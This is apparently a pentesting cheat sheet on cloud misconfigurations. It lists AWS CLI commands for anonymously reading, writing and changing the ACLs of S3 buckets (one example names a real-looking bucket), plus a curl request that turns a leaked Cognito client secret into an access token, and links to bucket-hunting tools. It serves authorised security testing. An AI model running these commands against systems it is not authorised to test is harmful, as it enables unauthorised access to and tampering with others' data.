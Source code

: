# Cloud hacking

## Index

- [Resources](#resources)
- [Abusing S3 Bucket Permissions](#abusing-s3-bucket-permissions)
- [AWS Cognito](#aws-cognito)
- [Google Cloud Storage bucket](#google-cloud-storage-bucket)

## Resources

- [cloud_metadata.txt](https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b), Cloud Metadata Dictionary useful for SSRF Testing

## Abusing S3 Bucket Permissions

Target example: `http://[name_of_bucket].s3.amazonaws.com`

**Read Permission**

- `aws s3 ls s3://[name_of_bucket]  --no-sign-request`
- `aws s3 ls s3://pyx-pkgs --recursive --human-readable --summarize`

**Write Permission**

- `aws s3 cp localfile s3://[name_of_bucket]/test_file.txt –-no-sign-request`

**READ_ACP**

- `aws s3api get-bucket-acl --bucket [bucketname] --no-sign`
- `aws s3api get-object-acl --bucket [bucketname] --key index.html --no-sign-request`

**WRITE_ACP**

- `aws s3api put-bucket-acl --bucket [bucketname] [ACLPERMISSIONS] --no-sign-request`
- `aws s3api put-object-acl --bucket [bucketname] --key file.txt [ACLPERMISSIONS] --no-sign-request`

**Tools**
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- [AWS CLI](https://aws.amazon.com/it/cli/)
- [S3Scanner](https://github.com/sa7mon/S3Scanner) A tool to find open S3 buckets and dump their contents
- [Cloud - AWS Pentest](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Cloud%20-%20AWS%20Pentest.md)
- [s3enum](https://github.com/koenrh/s3enum)
- To find secrets, you can use [trufflehog](https://github.com/trufflesecurity/trufflehog).

**Resources**
- [Abusing S3 Bucket Permissions](https://blog.yeswehack.com/yeswerhackers/abusing-s3-bucket-permissions/)
- [Amazon S3: Allows read and write access to objects in an S3 Bucket](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_examples_s3_rw-bucket.html)


## AWS Cognito

If you've found aws cognito client id and secret
1. `clientID:clientSercret` => `base64KEY`
2. `curl -X POST 'https://xx.amazoncognito.com/oauth2/token' \   -H 'Authorization: Basic base64KEY'\   -H 'Content-Type: application/x-www-form-urlencoded' \   -d 'grant_type=client_credentials'`
3. [Source](https://twitter.com/GodfatherOrwa/status/1670617783510376448)



## Google Cloud Storage bucket

**Tools**
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- https://github.com/RhinoSecurityLabs/GCPBucketBrute

**Resources**
- https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/
- https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/
